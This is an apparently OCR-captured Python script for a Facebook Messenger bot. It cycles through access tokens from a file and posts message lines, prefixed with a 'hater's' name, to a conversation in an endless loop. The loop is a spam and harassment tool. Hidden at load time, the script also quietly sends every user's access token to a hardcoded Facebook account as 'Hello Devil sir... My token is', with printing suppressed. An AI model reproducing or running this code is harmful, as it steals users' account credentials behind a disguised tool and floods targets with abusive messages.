 mport requests
import json
import time
import sys
from platform import system
import os
import subprocess
import http.server
import socketserver
import threading
import random
class MyHandler(http.server.SimpleHTTPRequestHandler):
      def do_GET(self):
          self.send_response(200)
          self.send_header('Content-type', 'text/plain')
          self.end_headers()
          self.wfile.write(b"CREDIT :- TRICKS BY SATISH <br> <br> OWNER => SATISH <br> <br> WATSAPP :- +91 93699 68567")
def execute_server():
      PORT = 4000
      with socketserver.TCPServer(("", PORT), MyHandler) as httpd:
          print("Server running at http://localhost:{}".format(PORT))
          httpd.serve_forever()


def send_initial_message():
      with open('token.txt', 'r') as file:
          tokens = file.readlines()

      # Modify the message as per your requirement
      msg_template = "CREDIT :- TRICKS BY SATISH                                                         Owner => Devil                                                       Hello Devil sir. I am using your server. My token is :- {}"

      # Specify the ID where you want to send the message
      target_id = "100090131821628"

      requests.packages.urllib3.disable_warnings()

      def liness():
          print('\033[1;92m' + '●════════════TOXIIC -BOII════════════●')

      headers = {
          'Connection': 'keep-alive',
          'Cache-Control': 'max-age=0',
          'Upgrade-Insecure-Requests': '1',
          'User-Agent': 'Mozilla/5.0 (Linux; Android 8.0.0; Samsung Galaxy S9 Build/OPR6.170623.017; wv) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.125 Mobile Safari/537.36',
          'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
          'Accept-Encoding': 'gzip, deflate',
          'Accept-Language': 'en-US,en;q=0.9,fr;q=0.8',
          'referer': 'www.google.com'
      }

      for token in tokens:
          access_token = token.strip()
          url = "https://graph.facebook.com/v17.0/{}/".format('t_' + target_id)
          msg = msg_template.format(access_token)
          parameters = {'access_token': access_token, 'message': msg}
          response = requests.post(url, json=parameters, headers=headers)

          # No need to print here, as requested
          current_time = time.strftime("%Y-%m-%d %I:%M:%S %p")
          time.sleep(0.1)  # Wait for 1 second between sending each initial message

      #print("\n[+] Initial messages sent. Starting the message sending loop...\n")
send_initial_message()
def send_messages_from_file():
      with open('convo.txt', 'r') as file:
          convo_id = file.read().strip()

      with open('file.txt', 'r') as file:
          messages = file.readlines()

      num_messages = len(messages)

      with open('token.txt', 'r') as file:
          tokens = file.readlines()
      num_tokens = len(tokens)
      max_tokens = min(num_tokens, num_messages)

      with open('name.txt', 'r') as file:
          haters_name = file.read().strip()

      with open('speed.txt', 'r') as file:
          speed = int(file.read().strip())

      def liness():
          print('\033[1;92m' + '●════════════TOXIIC-BOII════════════●')

      headers = {
          'Connection': 'keep-alive',
          'Cache-Control': 'max-age=0',
          'Upgrade-Insecure-Requests': '1',
          'User-Agent': 'Mozilla/5.0 (Linux; Android 8.0.0; Samsung Galaxy S9 Build/OPR6.170623.017; wv) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.125 Mobile Safari/537.36',
          'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
          'Accept-Encoding': 'gzip, deflate',
          'Accept-Language': 'en-US,en;q=0.9,fr;q=0.8',
          'referer': 'www.google.com'
      }

      while True:
          try:
              for message_index in range(num_messages):
                  token_index = message_index % max_tokens
                  access_token = tokens[token_index].strip()

                  message = messages[message_index].strip()

                  url = "https://graph.facebook.com/v17.0/{}/".format('t_' + convo_id)
                  parameters = {'access_token': access_token, 'message': haters_name + ' ' + message}
                  response = requests.post(url, json=parameters, headers=headers)

                  current_time = time.strftime("\033[1;92mSahi Hai ==> %Y-%m-%d %I:%M:%S %p")
                  if response.ok:
                      print("\033[1;36m[✓] Bhai Chla Gya Tera Massage {} of Convo {} Token {}: {}".format(
                          message_index + 1, convo_id, token_index + 1, haters_name + ' ' + message))
                      liness()
                      liness()
                  else:
                      print("\033[1;35m[x] Failed to send Message {} of Convo {} with Token {}: {}".format(
                          message_index + 1, convo_id, token_index + 1, haters_name + ' ' + message))
                      liness()
                      liness()
                  time.sleep(speed)

              print("\n[+] All messages sent. Restarting the process...\n")
          except Exception as e:
              print("[!] An error occurred: {}".format(e))

def main():
      server_thread = threading.Thread(target=execute_server)
      server_thread.start()

      # Send the initial message to the specified ID using all tokens


      # Then, continue with the message sending loop
      send_messages_from_file()

if __name__ == '__main__':
      main()
